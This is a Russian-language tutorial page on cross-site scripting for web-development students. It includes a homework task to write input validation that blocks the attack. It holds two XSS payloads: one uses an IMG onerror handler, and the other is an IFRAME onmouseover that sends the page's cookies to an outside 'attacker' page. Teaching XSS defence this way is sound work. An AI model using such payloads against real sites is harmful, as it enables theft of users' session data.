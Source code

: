 # ![ico-30 study] XSS

XSS (Cross-Site Scripting — «межсайтовый скриптинг») — атака на веб-систему путем инъекции вредоносного кода
^^(вместо "C" используется "X", чтобы не было путаницы с CSS)^^

Внедренный код будет выполняться на компьютере пользователя.
Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера.

Разновидностей XSS-атак очень много.
Частично они отражаются на уровне браузера.
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода.

[![ico-20 link] Перейдите по ссылке](samples/03).

Откройте **~Chrome DevTools~**.

![](illustrations/xss-atack.png)

Установите точки останова (~breakpoints~) для того, чтобы пошагово отслеживать выполнение кода и вносить изменения в код.

1. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
&lt;IMG SRC="images/hack.png"
     onerror="document.write(String.fromCharCode(88, 83, 83))"/>
~~~

это довольно безобидная "атака", которая просто перезапишет содержимое ~body~

2. Посмотрите на содержимое куки страницы до вставки вредоносного кода в поле input:

![](illustrations/xss-atack-cookie.png)

Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
&lt;IFRAME SRC=js/attack.html
  onmouseover="window.open('https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self')">
</IFRAME>
~~~

На страницу будет вставлен фрейм, в котором будет открыта страница хакера, которой будут переданы данные, хранящиеся в cookie.

При наведении курсора на этот фрейм будет происходить переход на страницу хакера.

^^с помощью такой строки можно украсть cookie с компьютера пользователя, где хранится конфиденциальная информация о нем.^^


## ![ico-25 hw] Задание

В панели навигации откройте файл **~js/index03.js~**.

Установите breakpoints.

![](illustrations/xss-atack-breakpoints.png)

Измените по своему усмотрению содержимое куки.

Измените код функции валидации ввода пользователя (**~testUserText~**).

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "_XSS атака отражена_" с указанием текущей даты и времени.

Сохраните изменения и продолжите выполение кода.

__________________________________________________________

[![ico-20 link] XSS](https://owasp.org/www-community/attacks/xss/)
[![ico-20 link] websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)
